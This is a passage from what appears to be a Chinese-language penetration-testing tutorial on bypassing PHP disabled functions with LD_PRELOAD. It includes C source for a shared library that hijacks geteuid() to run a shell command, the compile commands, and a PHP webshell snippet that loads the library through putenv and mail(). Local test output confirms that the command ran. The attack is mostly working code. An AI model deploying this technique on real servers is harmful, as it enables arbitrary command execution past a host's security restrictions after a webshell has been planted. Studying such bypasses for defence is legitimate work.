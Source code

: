```
    18: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strspn@GLIBC_2.2.5 (2)
    19: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@GLIBC_2.2.5 (2)
    20: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strlen@GLIBC_2.2.5 (2)
......

```

从中选取一个合适的库函数后我们就可以进行测试了：

1.  编制我们自己的动态链接程序。
2.  通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。
3.  在webshell上用mail函数发送一封邮件来触发。

我们来测试删除一个新建的文件，这里我们选取geteuid()函数来改造，先在/tmp目录新建一个文件check.txt。

编写hack.c：

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 

void payload() {
        system("rm /tmp/check.txt");
}   

int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}

```

当这个共享库中的geteuid被调用时，尝试加载payload()函数，执行命令。这个测试函数写的很简单，实际应用时可相应调整完善。在攻击机上（注意编译平台应和靶机平台相近，至少不能一个是32位一个是64位）把它编译为一个位置信息无关的动态共享库：

```
$ gcc -c -fPIC hack.c -o hack 

$ gcc -shared hack -o hack.so

```

再上传到webshell上，然后写一段简单的php代码：

```
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("a@localhost","","","","");
?>

```

在浏览器中打开就可以执行它，然后再去检查新建的文件是否还存在，找不到文件则表示系统成功执行了删除命令，也就意味着绕过成功，测试中注意修改为实际路径。 本地测试效果如下：

```
[yiyang@bogon Desktop]$ touch /tmp/check.txt
[yiyang@bogon bin]$ ./php mail.php
sendmail: warning: the Postfix sendmail command has set-uid root file permissions
sendmail: warning: or the command is run from a set-uid root process
sendmail: warning: the Postfix sendmail command must be installed without set-uid root file permissions
sendmail: fatal: setgroups(1, &500): Operation not permitted
[yiyang@bogon bin]$ cat /tmp/check.txt
cat: /tmp/check.txt: No such file or directory

```
